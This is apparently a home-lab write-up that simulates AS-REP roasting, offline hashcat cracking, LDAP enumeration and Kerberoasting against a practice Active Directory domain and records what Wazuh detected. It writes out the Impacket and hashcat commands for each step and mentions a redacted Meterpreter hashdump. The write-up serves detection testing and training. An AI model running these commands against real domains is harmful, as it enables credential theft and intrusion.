





# 03 – Credential Access

## Objective

Demonstrate credential access techniques against an Active Directory environment by exploiting Kerberos authentication weaknesses. This simulation includes AS-REP Roasting, offline password cracking, LDAP enumeration using recovered credentials, Kerberoasting, and offline cracking of Kerberos service tickets. The objective is to validate Wazuh's ability to detect authentication-related events and provide visibility into credential access activity.

---

# MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---------|-----------|----|
| Credential Access | AS-REP Roasting | T1558.004 |
| Credential Access | Kerberoasting | T1558.003 |
| Discovery | Account Discovery | T1087.002 |

---

# Attack Overview

An attacker first identifies user accounts vulnerable to AS-REP Roasting, retrieves Kerberos AS-REP hashes without authentication, and cracks them offline to recover valid domain credentials. Using the recovered credentials, the attacker enumerates Active Directory users via LDAP and requests Kerberos service tickets (TGS) for service accounts. These tickets are then cracked offline to recover additional credentials.

---

# Attack Workflow

```text
Arch Linux
      │
      ▼
GetNPUsers.py
      │
      ▼
AS-REP Hash Retrieved
      │
      ▼
Hashcat
      │
      ▼
Recovered Domain Credentials
(brandon.stark)
      │
      ▼
LDAP Enumeration
(GetADUsers.py)
      │
      ▼
GetUserSPNs.py
      │
      ▼
Kerberoast TGS Hash Retrieved
      │
      ▼
Hashcat
      │
      ▼
Recovered Service Account Credentials
(jon.snow)
```

---

# Lab Environment

| Component | Value |
|-----------|-------|
| Attacker | Arch Linux |
| Domain | north.sevenkingdoms.local |
| Domain Controller | 10.10.14.11 |
| SIEM | Wazuh |
| Authentication | Kerberos |

---

# Attack Execution

## Step 1 – AS-REP Roasting

Identify users that do not require Kerberos pre-authentication and request AS-REP hashes.

```bash
GetNPUsers.py north.sevenkingdoms.local/ -no-pass -usersfile users.txt
```

Recovered an AS-REP hash for a vulnerable domain user.

---

## Step 2 – Offline Password Cracking

Crack the retrieved AS-REP hash using Hashcat.

```bash
hashcat -m 18200 asrep.hash /opt/wordlist/rockyou.txt
```

Recovered valid domain credentials.

---

## Step 3 – LDAP Enumeration

Authenticate using the recovered credentials and enumerate Active Directory users.

```bash
GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:<password>
```

Enumerated:

- Domain users
- PasswordLastSet
- LastLogon
- Service accounts

---

## Step 4 – Kerberoasting

Request Kerberos service tickets (TGS) for Service Principal Names (SPNs).

```bash
GetUserSPNs.py -request -dc-ip 10.10.14.11 \
north.sevenkingdoms.local/brandon.stark:<password> \
-outputfile kerberoasting.hashes
```

Successfully extracted Kerberos service ticket hashes.

---

## Step 5 – Offline Password Cracking

Attempt to recover service account passwords.

```bash
hashcat -m 13100 kerberoasting.hashes /opt/wordlist/rockyou.txt
```

Recovered valid service account credentials.

---
## SYSTEM Hashdump

After obtaining `NT AUTHORITY\SYSTEM`, local account password hashes were retrieved using Meterpreter's `hashdump` functionality.

The captured credential material has been **redacted** in the published evidence to prevent exposing reusable password hashes.



# Wazuh Detection

During the credential access attack, Wazuh collected Windows Security events generated by Kerberos authentication and account activity.

Relevant events include:

- Kerberos Authentication
- Account Logon
- LDAP Authentication
- Windows Security Events
- Credential Access Activity

These events can be investigated from:

**Threat Hunting → Events**

---

# Detection Summary

| Phase | Status |
|--------|--------|
| AS-REP Roasting | ✅ Detected |
| Offline Password Cracking | Offline Activity |
| LDAP Enumeration | ✅ Logged |
| Kerberoasting | ✅ Detected |
| Kerberos Authentication Events | ✅ Logged |

---

# Screenshots

### 01 – AS-REP Roasting



---

### 02 – AS-REP Password Cracked



---

### 03 – LDAP User Enumeration



---

### 04 – Kerberoasting and Password Cracking



---

# Attack Outcome

- Successfully performed AS-REP Roasting
- Recovered valid domain user credentials
- Authenticated to Active Directory
- Enumerated domain users
- Performed Kerberoasting
- Retrieved Kerberos TGS tickets
- Recovered service account credentials through offline password cracking

---

# Skills Demonstrated

- Active Directory Enumeration
- Kerberos Authentication
- AS-REP Roasting
- Kerberoasting
- Offline Password Cracking
- LDAP Enumeration
- Wazuh Threat Hunting
- Security Event Investigation
- MITRE ATT&CK Mapping

---

# Next Phase

**04 – Privilege Escalation**

Use the recovered credentials to obtain elevated privileges and continue the attack lifecycle within the Active Directory environment.
